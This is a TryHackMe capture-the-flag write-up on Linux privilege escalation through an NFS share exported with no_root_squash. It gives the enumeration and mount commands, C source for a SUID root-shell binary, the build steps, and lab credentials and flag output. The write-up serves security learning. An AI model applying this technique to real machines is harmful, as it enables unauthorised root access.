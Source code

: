 Username: karen
Password: Password1


Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.
```
$ cat /etc/exports
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
 - /etc/exports: the access control list for filesystems which may be exported to NFS clients.  See exports(5).
-  Example for NFSv2 and NFSv3:
   - /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,syncno_subtree_check)
- Example for NFSv4:
  - /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
  - /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

We will start by enumerating mountable shares from our attacking machine.
```
┌─[nguyenlong05@sw1mj3llyf1sh] - [~] - [Wed Jan 22, 22:58]
└─[$] <> showmount -e 10.10.39.162                       
Export list for 10.10.39.162:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

> The `*` indicates that these directories are accessible to all clients. This is a significant security risk because it allows any system with NFS capabilities to mount these shares.


We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable.


```
┌─[nguyenlong05@sw1mj3llyf1sh] - [/tmp] - [Wed Jan 22, 23:01]
└─[$] <> mkdir TryHackMe_PrivEsc_nfs 

┌─[nguyenlong05@sw1mj3llyf1sh] - [/tmp] - [Wed Jan 22, 23:03]
└─[$] <> sudo mount -o rw 10.10.39.162:/home/ubuntu/sharedfolder TryHackMe_PrivEsc_nfs
```
As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main (void) {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    return 0;
}
```

```
┌─[nguyenlong05@sw1mj3llyf1sh] - [/tmp/TryHackMe_PrivEsc_nfs] - [Wed Jan 22, 23:19]
└─[$] <> sudo gcc -static thm.c -o thm

┌─[nguyenlong05@sw1mj3llyf1sh] - [/tmp/TryHackMe_PrivEsc_nfs] - [Wed Jan 22, 23:20]
└─[$] <> sudo chmod +s thm       

┌─[nguyenlong05@sw1mj3llyf1sh] - [/tmp/TryHackMe_PrivEsc_nfs] - [Wed Jan 22, 23:20]
└─[$] <> sudo chmod +x thm  
```
In the target machine, execute the file and get root
```
$ karen@ip-10-10-39-162:/home/ubuntu/sharedfolder$ ./thm
$ root@ip-10-10-39-162:/home/ubuntu/sharedfolder# 
$ root@ip-10-10-39-162:/home/ubuntu/sharedfolder# cat /home/matt/flag7.txt
THM-89384012
```
